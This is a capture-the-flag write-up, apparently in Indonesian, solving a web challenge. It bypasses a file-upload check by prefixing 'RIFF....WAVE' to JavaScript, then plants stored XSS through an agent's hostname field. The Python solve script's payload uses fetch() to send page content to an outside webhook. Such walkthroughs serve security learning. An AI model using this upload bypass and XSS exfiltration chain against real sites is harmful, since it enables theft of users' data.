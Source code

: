 ```js
    res.send(req.file.filename);
  }
);

```

Pada source code diatas kita bisa melihat adanya file upload, tetapi ada restriksi pada if statement kedua, ini bisa kita bypass dengan menambahkan `RIFF....WAVE` pada payload js kita.

## **Exploit**

Jadi hal yang perlu kita lakukan adalah:

- Register agent.
- Upload file dan bypass file upload restriction serta tidak lupa menyisipkan script untuk membaca flag di home page dan mengirimkannya ke webhook.
- Menyisipkan XSS link payload kita didalam `hostname`, `platform`, atau `arch` pada agent.

Solve script:

```python
import requests
from pwn import log, context

context.log_level = "INFO"
URL = "http://165.232.108.240:30948"
BOT_URL = "http://0.0.0.0:1337"

class API:
    def __init__(self, agentId=None, token=None, url=URL):
        self.url = url
        self.agentId = agentId
        self.agentToken = token
    def register(self):
        res = requests.get(self.url+"/agents/register")
        json = res.json()
        log.info("register agent: %s", json)
        self.agentId = json["identifier"]
        self.agentToken = json["token"]
    def details(self, hostname, platform, arch):
        res = requests.post(
            self.url+"/agents/details/{identifier}/{token}".format(identifier=self.agentId, token=self.agentToken),
            data={
                "hostname": hostname,
                "platform": platform,
                "arch": arch,
            },
        )
        log.info("agents details: %s", res.text)
        return res.text
    def upload(self, payload):
        res = requests.post(
            self.url+"/agents/upload/{identifier}/{token}".format(identifier=self.agentId, token=self.agentToken),
            files={"recording":("test.wav", "//RIFF....WAVE\n"+payload, "audio/wave")},
        )
        log.info("upload: %s", res.text)
        return res.text

a = API()
a.register()
script = a.upload("fetch('https://webhook?'+document.querySelector('h2').innerHTML)")
a.details(f"<script src='{BOT_URL}/uploads/{script}'></script>", "windows","windows")

```